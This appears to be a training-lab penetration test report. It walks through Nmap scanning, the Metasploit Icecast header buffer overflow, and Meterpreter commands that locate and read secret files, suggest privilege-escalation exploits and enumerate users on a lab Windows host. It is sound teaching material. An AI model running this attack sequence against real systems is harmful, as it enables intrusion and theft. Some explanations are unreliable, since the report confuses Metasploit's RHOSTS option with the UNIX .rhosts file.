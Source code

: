     GoodSecurity Penetration Test Report 

    Abdisalan-Firin@GoodSecurity.com

    DATE
    11/01/2021

 ### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploit two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.
       2.0 Findings

### Machine IP:
    192.168.0.20
### Hostname:
    MSEDGEWIN10
### Vulnerability Exploited:
    Exploit/windows/http/icecast_header

    Vulnerability Explanation:

The Vulnerability i found Icecast application running on 192.168.0.20 allows for a buffer overflow exploit and any attacker can remotely gain control of the victim’s system by overwriting the memory on the system utilizing the Icecast flaw, which writes past the end of a pointer array when receiving 32 HTTP headers. this will overwrite the saved instruction pointer and leave Icecast thinking one of the processor threads is still occupied by one of its methods; in reality, the running process is a malicious payload.

Some remote actions able to be executed are:

    File discovery
    Key logging 
    screen capture
    Privilege escalation to Administrator 
I also find this vulnerable to the following exploits:

    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

### Severity:

This exploit is very severe and Critical as it allows malicious actors to run any manor of arbitrary code on the host’s machine.

### Proof of Concept:

1. Perform a service and version scan using Nmap to determine which services are up and running: 

- nmap -sS -sV -O 192.168.0.20

    - nmap: allows you to scan your network and discover not only everything connected to it.
    - -sS: its for TCP SYN port scan.
    - -sV: it is determine the version of the service running on port. 
    - -O: is the Remote OS detection using TCP/IP.

After scanning networks for vulnerabilities, we can execute the exploits that we know an organization is vulnerable to.

    Using nmap to scan the system to see any port open
 ![using nmap to scan the system](./Images/snep-1.PNG)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   
     searchsploit -t Icecast windows
<Result> (exploits/windows_x86/remote/16763.rb)

Now we’ll use a tool called SearchSploit to locally store a library of exploit information and the scripts used to execute the exploits.


    Icecast exploits
![icecast exploits](./Images/snap-2.PNG)


3. Start Metasploit and search for the Icecast module and load it for use.:
 
    - Msfconsole.
    
    - Search icecast.
    
    - Use 0.

- The Metasploit is a computer security that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. 
- MSFconsole provides a command line interface to access and work with the Metasploit.

    starting metasploit and searching icecast
 ![RHOST setting](./Images/snap-x.PNG)
 
 ![Metasploits](./Images/snap-3.PNG)

 ![Metasploits](./Images/snap-y.PNG)

4. Set the `RHOST` to the target machine and run.

    - set RHOSTS 192.168.0.20.
    - run.

-   Rhosts allows me to log in to a UNIX-based system from another computer on the same network.
-   The rhosts file contains a list of hosts and user names that determines who can log in to a system remotely without a password.

    Setting RHOST to IP adress
![RHOST setting](./Images/snap-4.PNG)


5. Search for the `secretfile.txt` on the target.

    - meterpreter > search -f *secret*.

OR
    
    - meterpreter > shell.

- Meterpreter allows me to remotely take over the compromised system, having control of the file system, collect sensitive information such as credentials and secret files.
- Shell is a software program that provides direct communication between you and the operating system or application, providing an environment to automate IT operations.

    The search of the secret 
![The search of secret file](./Images/snap-xy.PNG)

6. Search for the `recipe.txt` on the target and download the file:
    
    - meterpreter > search -f *recipe*
    - meterpreter > cd 'C:\Users/IEUser/Documents
    - meterpreter > ls
    - meterpreter > cat Drinks.recipe.txt
    - meterpreter > cat user.secretfile.txt

    Search of the recipe
    ![search of the recipe](./Images/snap-6.PNG)
    
    ![search of the recipe](./Images/snap-f.PNG)

7. Use Meterpreter's local exploit suggester to find possible exploits.
    
    - meterpreter> run post/multi/recon/local_exploit_suggestor

The system was also found to be vulnerable to the following exploits:
    
    - exploit/windows/local/ikeext_service
    - exploit/windows/local/ms16_075_reflection

    Using meterpreter for local exploit
   ![Using meterpreter for local exploit](./Images/snap-7.PNG)

8. Run a Meterpreter post script that enumerates all logged on users.
    
    - run post/windows/gather/enum_logged_on_users
    
    
    Using meterpreter post script
  ![Using meterpreter post script](./Images/snap-8.PNG)

9. Running the sysinfo command
 
    system info
 ![sysinfo](./Images/snap-9.PNG)

 ![sysinfo](./Images/snap-a.PNG)
 
 ![sysinfo](./Images/snap-b.PNG)

### Overall Recommendations

Icecast exploit is old and the vulnerability can be fixed with a patch or Install the latest version of this and all other software.
Encrypt the files and folders that you want to keep a secret
Enable the windows firewall with rules to only explicitly allow traffic on needed ports.